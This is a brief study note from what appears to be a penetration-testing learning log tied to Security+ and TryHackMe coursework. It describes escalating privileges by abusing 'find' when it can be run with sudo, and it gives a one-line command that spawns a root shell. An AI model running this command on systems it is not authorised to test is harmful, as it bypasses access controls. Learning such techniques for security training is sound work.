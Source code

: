 # Exploiting "find"

author:: Nathan Acks  
date:: 2022-04-21

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

* [2022-04-20 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)

